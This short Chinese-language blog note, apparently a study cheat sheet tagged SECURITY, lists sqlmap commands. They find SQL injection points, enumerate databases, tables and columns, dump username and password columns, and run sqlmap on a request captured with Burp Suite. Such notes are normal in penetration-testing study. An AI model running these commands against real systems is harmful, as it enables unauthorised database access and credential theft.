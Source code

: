 ```yaml
---
title: "sqlmap"
date: 2024-12-19T21:25:05+08:00
draft: false
tags: ["SECURITY"]
---
```


```shell
python sqlmap.py -h
```
查看帮助
```shell
python sqlmap.py -u "URL"
```
寻找注入点
```shell
python sqlmap.py -u "URL" --dbs
```
获取数据库库名
```shell
python sqlmap.py -u "URL" --current-db
```
获取当前数据库库名
```shell
python sqlmap.py -u "URL" -D security --tables
```
获取security库下的所有表名
```shell
python sqlmap.py -u "URL" -D security -T users --columns
```
获取字段名
```shell
python sqlmap.py -u "URL" -D security -T users -C id,username,password --dump
```
获取对应字段的全部值

特殊地，使用burpsuite截获的数据包时，参数改为
```shell
python sqlmap.py -r [path_to_the_pack]
```